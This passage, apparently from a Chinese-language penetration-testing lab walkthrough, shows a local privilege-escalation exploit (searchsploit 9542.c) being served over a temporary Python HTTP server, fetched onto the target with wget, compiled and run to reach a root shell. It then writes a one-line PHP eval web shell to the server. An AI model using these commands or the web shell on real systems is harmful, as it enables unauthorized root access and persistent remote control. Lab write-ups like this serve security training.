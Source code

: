             `expsearchsploit -m linux_x86/local/9542.c` 
            
        2. python起一个临时服务用来传输exp
            
            `python3 -m http.server 8877`
            
        3. 靶机下载exp
            
            这里要注意使用ls -l找一个有写入和执行权限得目录
            
            ```bash
            bash-3.00$ ls -l
            total 158
            ......
            drwxr-xrwx   4 root root  4096 Sep 21 06:48 tmp
            ......
            ```
            
            我们写入tmp目录
            
            ```bash
            bash-3.00$ wget http://192.168.85.157:8877/9542.c
            --07:38:11--  http://192.168.85.157:8877/9542.c
                       => `9542.c'
            Connecting to 192.168.85.157:8877... connected.
            HTTP request sent, awaiting response... 200 OK
            Length: 2,535 (2.5K) [text/x-csrc]
            
                0K ..                                                    100%  302.20 MB/s
            
            07:38:11 (302.20 MB/s) - `9542.c' saved [2535/2535]
            
            bash-3.00$ ls
            9542.c
            
            ```
            
        4. 编译执行
            
            ```bash
            bash-3.00$ gcc 9542.c
            9542.c:109:28: warning: no newline at end of file
            bash-3.00$ ls
            9542.c
            a.out
            bash-3.00$ ./a.out
            sh: no job control in this shell
            sh-3.00# whoami
            root
            ```
            
            成功拿下root权限
            
- 写php马
    
    前面测试执行命令的时候我们可以看到该网站使用的php，并且前面可以通过pwd看到目录，想试一下写php马看看
    
    `echo "<?php @eval(\$_POST[cmd]);?>" > shell.php`
    